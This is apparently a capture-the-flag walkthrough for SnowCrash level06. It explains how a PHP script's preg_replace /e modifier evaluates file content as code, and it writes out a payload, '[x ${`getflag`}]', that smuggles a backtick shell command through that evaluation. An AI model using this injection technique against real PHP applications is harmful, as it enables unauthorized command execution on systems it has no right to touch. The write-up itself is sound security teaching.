 We find two files, `level06` and `level06.php`

```
level06@SnowCrash:~$ ls
level06  level06.php
```

Inspecting `level06.php` reveals the following code:

```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

1. **Function `y`**:

   - Replaces any `.` in the input with `x`
   - Replaces any `@` in the input with ` y`
   - This function formats input by substituting specific characters with other words.

2. **Function `x`**:

   - Reads the content of the file specified by `$y`.
   - Uses the regex `/(\[x (.*)\])/e` in `preg_replace`. The `/e` modifier makes PHP evaluate the replacement as code. Here, it calls `y(...)` on the captured content within the `[x ...]` brackets.
   - Replaces `[` with `(` and `]` with `)`, effectively transforming input into an evaluable expression.

3. **/e Modifier**:
   - The `/e` modifier allows PHP to interpret the replacement string as code, which is a vulnerability as it can allow for command injection when combined with specific inputs.

Our goal is to use this vulnerability to execute `getflag`.

1. **Creating Malicious Input**:

   - We create a file `/tmp/test` with content that will trigger command injection:
     `level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/test`
   - Here, `${`getflag`}` will run `getflag` in a shell, capturing its output as part of the evaluated string.

2. **Executing the Exploit**:
   - Running `level06 /tmp/test` feeds the crafted file into `level06.php`.
   - In the `x` function, `preg_replace` with `/e` executes `${`getflag`}`, running `getflag` and capturing the flag as output.

---

### Result

When we execute the command:

```
level06@SnowCrash:~$ ./level06 /tmp/test
```

The output returns:

```
No entry for terminal type "alacritty";
using dumb terminal settings.
PHP Notice:  Undefined variable: Check flag.Here is your token :
in /home/user/level06/level06.php(4) : regexp code on line 1
```

This notice appears due to PHP warnings, but the `getflag` command executes successfully, outputting the flag token.

---

This completes the exploit for Level06.
